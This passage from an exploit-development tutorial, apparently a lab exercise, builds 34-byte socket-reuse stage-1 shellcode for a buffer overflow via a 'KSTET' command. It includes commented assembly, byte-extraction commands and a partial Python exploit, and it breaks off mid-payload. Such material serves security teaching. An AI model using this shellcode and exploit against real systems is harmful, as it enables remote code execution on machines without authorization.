 That looks good, but in fact, that code has a problem: the value of the
socket handle is created dynamically at runtime. However, the socket
handle is nothing but an integer.

Having noted that, we can update our shellcode to brute force the value
of the socket, starting from `0` until it finds the right one\!:

**shellcode.asm.**

``` x86asm
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor edi,edi             ; Zero out EDI
socket_loop:            ; Our bruteforce loop starts here
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'flags' parameter = 0
add bh,0x4              ; Make EBX = 00000400 = 1024 bytes
push ebx                ; Push `len` parameter = 1024 bytes
mov ebx,esp             ; Move the current pointer of ESP into EBX
add ebx,0x64            ; Point EBX the original ESP to make it the pointer on
                        ; where our stage-2 payload will be received
push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
inc edi                 ; Make EDI = EDI + 1
push edi                ; Push socket handle `s` parameter = EDI = EDI + 1
mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
                        ; null bytes. So 40252C90 is shift-left padded with 90
shr eax,0x8             ; Remove the '90' byte of EAX by shifting right and
                        ; This makes EAX = 0040252C
call eax                ; Call recv()
test eax,eax            ; Check if our recv() call was successfully made
jnz socket_loop         ; If recv() failed, jump back to the socket loop where
                        ; EDI will be increased to check the next socket handle
```

That looks better. We can compile that using `nasm`:

``` console
nasm -f elf32 -o shellcode.o shellcode.asm
```

And obtain the shellcode using this:

``` bash
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x83\xec\x64\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47
\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3
```

Great\! Our final stage-1 shellcode is only 34 bytes long\!

Let’s update our exploit to inject it:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

STAGE1 = (
    b'\x83\xec\x64\x31\xff\x31\xdb\x53\x80\xc7\x04\x53' +
    b'\x89\xe3\x83\xc3\x64\x53\x47\x57\xb8\x90\x2c\x25' +
    b'\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3'
)

PAYLOAD = (
    b'KSTET ' +
    # NOP Padding
    b'\x90' * 8 +
```